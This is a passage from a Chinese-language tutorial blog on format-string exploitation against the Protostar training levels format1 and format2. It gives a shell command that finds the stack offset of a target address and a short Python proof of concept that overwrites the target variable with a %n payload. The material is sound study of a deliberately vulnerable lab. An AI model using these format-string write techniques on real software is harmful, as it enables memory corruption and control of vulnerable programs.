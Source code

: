 在一连串的数据中通过 `.` 来定位，我这里通

```sh
./format1 `python -c "print ‘\x38\x96\x04\x08’ + 'a'*4 + '%183$x'"`
```

我这里的定位到 `183` 就刚好可以输出 `08049638（target）`的地址，这里直接将参数 `x` 改成参数 `n` ，就可以将 `target` 的值改掉啦！

`poc` :

```python
# -*- coding: utf-8 -*-
# !/usr/bin/python env
import struct, subprocess


def main():
    target = struct.pack('<I', 0x08049638)
    payload = target + b'a'*4 + b'%183$n'
    subprocess.Popen(['./format1', payload])


if __name__ == '__main__':
    main()
```



### 0x213 format 2

这里的 `main` 函数直接调用 `vuln` 函数，我们直接看：

![protostar_format2_1](/image/2019-03-20-linux_pwn_format/protostar_format2_1.png)
